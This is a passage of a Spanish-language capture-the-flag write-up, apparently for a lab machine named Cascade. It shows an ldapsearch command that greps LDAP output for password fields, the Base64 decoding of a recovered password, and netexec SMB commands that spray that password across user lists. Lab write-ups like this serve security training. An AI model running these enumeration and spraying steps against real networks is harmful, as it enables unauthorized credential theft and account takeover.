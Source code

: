 Podemos realizar la misma enumeración a través de la herramienta de **ldapsearch**.

{% code overflow="wrap" %}
```bash
ldapsearch -x -H ldap://10.10.10.182 -b "DC=cascade,DC=local" | grep -ie "pwd\|password"
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

Probaremos a descodificar el texto encontrado en Base64 y parece que obtenemos lo que parece ser una contraseña.

<figure><img src="../../../.gitbook/assets/1266_vmware_4A2wj0ZIxP.png" alt=""><figcaption></figcaption></figure>

Probaremos de enumerar a todos los usuarios que disponemos para ver si uno de ellos se puede llegar a autenticar. Verificamos que el usuario "r.thompson" se puede autenticar con dichas credenciales.

{% code overflow="wrap" %}
```bash
netexec smb 10.10.10.182 -u valid_domain_users.txt -p 'rY4n5eva' --continue-on-success

netexec smb 10.10.10.182 -u users.txt -p 'rY4n5eva' --continue-on-success
```
{% endcode %}

